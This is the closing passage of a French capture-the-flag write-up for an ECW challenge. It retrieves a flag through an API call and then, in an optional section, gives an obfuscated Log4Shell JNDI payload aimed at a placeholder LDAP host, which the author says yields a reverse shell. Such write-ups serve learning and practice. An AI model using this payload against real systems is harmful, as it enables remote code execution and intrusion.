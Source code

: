 C'est passé ! Nous avons récupérer la variable d'environnement ! Merci la twittosphère !
Il ne nous reste plus qu'à nous en servir pour obtenir le flag via l'api :

```Bash
curl "http://213.32.7.237:29835/api/facility" -H "X-API-Key: $(echo -n 'LE_CONTEXTE_EST_INTERESSANT'|base64)"

Here is you access code : ECW{Ceci_000__eSt_le_flag}
```

![Victory](images/victory.gif)

### Option facultative RCE

Il est également possible d'obtenir directement un reverse shell via Log4Shell :

```Bash
curl -X POST "http://213.32.7.237:24935/api/check" -d 'nom=Zbeub&prenom=${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//XX.XX.XX.XX:1389/a}'
```

![Powned](images/pwned.png)

Ca y est nous avons notre reverse shell !
Il ne nous reste plus qu'à récupérer la variable d'environnement contenant la clé d'accès de l'api, ou bien afficher directement le flag !

![flag](images/rce.png)
